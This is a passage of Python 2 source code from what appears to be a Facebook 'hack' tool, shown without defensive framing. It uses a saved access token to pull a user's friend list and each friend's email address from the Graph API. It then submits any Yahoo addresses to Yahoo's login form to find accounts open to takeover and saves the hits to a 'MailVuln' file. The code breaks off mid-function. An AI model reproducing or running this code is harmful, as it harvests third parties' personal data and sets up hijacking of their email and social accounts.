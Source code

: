 
def yahoo_pilih():
    go = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
    if go == '':
        print '\x1b[1;91m[!] Can\'t empty'
        yahoo_pilih()
    else:
        if go == '1':
            yahoofriends()
        else:
            if go == '2':
                yahoolist()
            else:
                if go == '0':
                    menu_hack()
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mnot found'
                    yahoo_pilih()


def yahoofriends():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    mpsh = []
    jml = 0
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
    friends = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
    kimak = json.loads(friends.text)
    save = open('MailVuln.txt', 'w')
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    for w in kimak['data']:
        jml += 1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile('@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
                br._factory.is_html = True
                br.select_form(nr=0)
                br['username'] = mail
                klik = br.submit().read()
                jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
                    continue

